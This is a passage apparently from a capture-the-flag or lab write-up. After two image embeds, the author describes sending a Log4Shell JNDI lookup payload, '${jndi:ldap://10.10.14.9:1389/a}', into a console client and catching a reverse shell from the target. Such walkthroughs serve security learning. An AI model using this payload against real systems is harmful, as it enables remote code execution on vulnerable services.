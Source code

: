 <figure><img src="../../.gitbook/assets/image (888).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (889).png" alt=""><figcaption></figcaption></figure>

***

* After that I inserted the payload for the _JNDI_ communication in the client and checked the script where I was notified about getting a request, confirming the petition was sent properly, and also checking the listener, I had caught a shell from the machine

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Into the console client
> ${jndi:ldap://10.10.14.9:1389/a}
```
{% endcode %}
